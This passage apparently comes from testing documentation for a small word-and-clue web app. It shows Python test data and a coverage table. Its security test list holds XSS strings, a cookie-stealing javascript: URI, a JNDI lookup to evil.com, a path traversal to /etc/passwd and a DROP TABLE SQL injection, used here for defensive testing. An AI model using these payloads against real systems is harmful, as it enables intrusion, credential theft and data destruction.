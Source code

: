 ```python
    }
]

# Edge cases and invalid data
INVALID_TEST_DATA = [
    {'parola': '', 'frase_indizio': 'Valid clue', 'nome': 'Test'},  # Empty word
    {'parola': 'VALID', 'frase_indizio': 'Short', 'nome': 'Test'},  # Clue too short
    {'parola': 'INVALID123', 'frase_indizio': 'Valid clue here', 'nome': 'Test'},  # Numbers in word
    {'parola': 'INVALID!', 'frase_indizio': 'Valid clue here', 'nome': 'Test'},  # Symbols in word
]

# Security test payloads
SECURITY_PAYLOADS = [
    '<script>alert("xss")</script>',
    '<img src=x onerror=alert(1)>',
    'javascript:alert(document.cookie)',
    '"><script>alert(1)</script>',
    '<svg onload=alert(1)>',
    '${jndi:ldap://evil.com/x}',
    '../../../etc/passwd',
    '; DROP TABLE submissions; --'
]
```

---

## 📊 Coverage Analysis

### **Code Coverage by Module**
```
Module                    Coverage    Lines    Missing
app.py                      98%       352      7
├── Route handlers          100%      120      0
├── Security functions      100%      45       0  
├── Authentication          100%      38       0
├── Form processing         95%       67       3
├── Database operations     100%      42       0
├── Error handlers          90%       25       2
└── Configuration           95%       15       2

templates/                  85%       45       7
├── admin.html             90%       25       2
├── index.html             80%       12       3
└── base.html              85%       8        2

Total Coverage:             95%       397      14
Critical Functions:         100%      280      0
Security Features:          100%      83       0
```

